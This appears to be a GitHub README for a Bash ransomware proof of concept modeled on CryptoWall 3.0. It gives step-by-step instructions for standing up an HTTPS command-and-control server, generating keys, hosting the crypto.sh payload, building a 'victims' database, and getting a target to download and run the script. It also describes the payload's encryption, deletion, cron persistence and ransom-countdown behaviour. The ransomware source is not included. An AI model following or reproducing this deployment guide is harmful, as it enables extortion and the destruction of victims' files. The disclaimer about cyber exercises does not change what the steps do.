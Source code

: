 # Bash Ransomware

## Synopsis
 Simple Bash POC cryptoware that is modeled after CryptoWall 3.0

## Requirements
 - openssl
 - jquery
 - mysql
 - php 5 (php5-mysql)
 - apache2 

## Notes
 - Added instructions to set up secure communications over HTTPS
 - Python and C versions of the BashCrypt are currently in development and should be released in the near future
 - Windows executable and powershell versions are also in development
 - You may notice that the configuration is insecure (e.g. - no db password, processes running as root, etc.). This is just for testing purposes in my dev environment. If you use this in an exercise, you will want to follow best practices to secure the C2 server
 - The codebase uses newer versions of software, like PHP. You may run into environments with older versions of PHP that do not support some of the built-in PHP functions. In this case, you will have to modify the code. Specifically, I ran into a PHP version < 5.2 and the DateTime function. To resolve this, I used srtotime("now") to get the Linux Epoch time and the date function, date('Y-m-d H:i:s'), to resolve this. To resolve this, you can use something similar to the following: date('Y-m-d H:i:s', strotime("now"));

## What to do on the server-side
 - > Configure your comms over HTTPS
 - > Sample certs are in the sample_apache_conf directory
 - $ openssl genrsa -des3 -passout pass:neveruseinsecurepasswords -out server.pass.key 4096
 - $ openssl rsa -passin pass:neveruseinsecurepasswords -in server.pass.key -out server.key 
 - $ openssl req -new -key server.key -out server.csr
 - $ openssl x509 -req -days 4096 -in server.csr  -signkey server.key -out server.crt
 - $ chmod 600 server.*
 - $ mkdir /etc/ssl/certs/
 - $ mv server.key /etc/ssl/certs/
 - $ mv server.crt /etc/ssl/certs/
 - > Use the sample apache SSL and Default configurations in sample_apache_conf as a guide
 - > Then configure your apache to redirect HTTP traffic to HTTPS
 - > Enable SSL
 - $ a2enmod ssl
 - $ servive apache2 restart

 - > Start Crypto Setup
 - $ openssl genrsa -out priv.pem 4096
 - $ openssl rsa -pubout -in priv.pem -out pub.pem
 - $ mkdir -p /var/www/html/downloads
 - $ cp pub.pem /var/www/html/downloads/
 - > Modify crypto.sh and replace the IP with your web server's IP/URL
 - $ sed -i 's/192\.168\.1\.132/YYY\.YYY\.YYY\.YYY/g' crypto.sh # Where YYY.YYY.YYY.YYY is your IP
     OR
 - $ sed -i 's/192\.168\.1\.132/www\.yourdomain\.com/g' crypto.sh
 - $ cp crypto.sh /var/www/html/downloads/
 - > Copy all of the ransomware files to /var/www/html
 - > You should have all of the php files in the root of your web dir (/var/www/html/)
 - > You should also have /var/www/html/images/ and /var/www/html/scripts/
 - $ cd /var/www/html/
 - > Modify admin.php, admin_query.php, decrypt.php, query.php, count.php, and target.php with your database information
 - $ chown -R www-data:root /var/www/html/
 - > Next, create the database for storing the data
 - $ mysql -u [user] -p
 - $ create database victims;
 - $ use victims;
 - $ create table target_list (id int(6) unsigned auto_increment primary key, unique_id varchar(16) not null, target_ip varchar(30), file_count int not null, curr_time timestamp not null, exp_time timestamp not null, time_expired bool not null);
 - $ exit

## What to do on the client-side
 - Get target to download the file and execute or if you have have access to the system, download it directly
 - $ chmod 755 crypto.sh
 - $ ./crypto.sh &

## What it does
 - Downloads the public key from our server 
 - Generates a key file on the target
 - Loops through the system for files with the defined extensions and Uses AES-256 to encrypt the files on the system using the generated key
 - Deletes the original file, leaving only the encrypted file
 - The key file is then encrypted using the public key (RSA-4096)
 - Prints a ransom message and then persists that message through cron
 - In each dir, an INSTRUCTIONS.txt file is created and contains the ransome message
 - Links to a web page where the user can see an active countdown of the time that is left before key deletion

## TODO
 - Create unique private/public key-pair per victim
 - Move DB settings into a common.php file and refer to that file in each of the scripts (One place to edit instead of numerous places)
 - Add in error handling for non-existing files
 - Add Screenshots

## Acknowledgements/Contributors
  - Special thanks to zmallen and his lollocker (https://github.com/zmallen/lollocker)
  - lollocker served as the inspiration for this project
  - CryptoWall message text used came from https://www.pcrisk.com/removal-guides/7844-cryptowall-virus
  - Excellent CryptoWall 3.0 Writeup: http://blog.brillantit.com/?p=15
  - CryptoWall 3.0 Writeup: http://www.sentinelone.com/blog/anatomy-of-cryptowall-3-0-a-look-inside-ransomwares-tactics/

## WARNING 
  - Use this tool at your own risk. Author is not responsible or liable if you damage your own system or others. Follow all local, state, federal, and international laws as it pertains to your geographic location. Do NOT use this tool maliciously as it is being released for educational purposes. This tools intended use is in cyber exercises or demonstrations of adversarial tools.

## Screenshots

   - Infected: <br />
   ![Infected](/screenshots/infected.jpg?raw=true "Infected") <br />
   - Decryption Page: <br />
   ![Decrypt](/screenshots/decrypt_page.jpg?raw=true "Decrypt") <br />
   - Countdown: <br />
   ![Countdown](/screenshots/time_countdown.jpg?raw=true "Countdown") <br />
   - Admin: <br />
   ![Admin](/screenshots/admin_portal.jpg?raw=true "Admin") <br />
   - Payment (Time Remaining): <br />
   ![Payment1](/screenshots/payment1.jpg?raw=true "Payment1") <br />
   - Payment (Time Expired): <br />
   ![Payment2](/screenshots/payment2.jpg?raw=true "Payment2") <br />
